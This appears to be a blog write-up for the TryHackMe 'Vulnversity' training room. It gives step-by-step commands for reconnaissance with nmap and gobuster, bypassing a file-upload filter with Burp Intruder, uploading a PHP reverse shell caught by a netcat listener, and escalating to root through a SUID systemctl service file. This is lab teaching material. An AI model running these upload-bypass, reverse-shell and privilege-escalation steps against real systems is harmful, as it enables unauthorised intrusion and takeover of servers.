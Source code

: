 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-02-04 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: false
---
```



<div class="flex-container">
  <script src="https://tryhackme.com/badge/34685"></script>
</div>


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.

For complete tryhackme path, refer the [link](https://4n3i5v74.github.io/posts/getting-started-with-cybersecurity-tryhackme/){:target="_blank"}


## Tools Used

### Enumeration

- NMAP
- Gobuster
- Burpsuite

### Exploitation

- [PHP Reverse Shell Payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"}


## Task 2 - Reconnaisance

### References
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}{% raw %}nmap -Pn -T4 -sV --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Locating directories using Gobuster

### References
- [Gobuster Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-gobuster){:target="_blank"}
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}{% raw %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endraw %}{% endcapture %} {% include code.html code=code %}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}{% raw %}curl http://<ip>:3333/<dir>/{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Compromise the webserver

### References
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code %}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}{% raw %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endraw %}{% endcapture %} {% include code.html code=code %}
{% capture code %}{% raw %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endraw %}{% endcapture %} {% include code.html code=code %}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}{% raw %}eop=$(mktemp).service{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl link $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl enable --now $eop{% endraw %}{% endcapture %} {% include code.html code=code %}


Capture the flag from the manipulated output file.
{% capture code %}{% raw %}cat /tmp/output{% endraw %}{% endcapture %} {% include code.html code=code %}

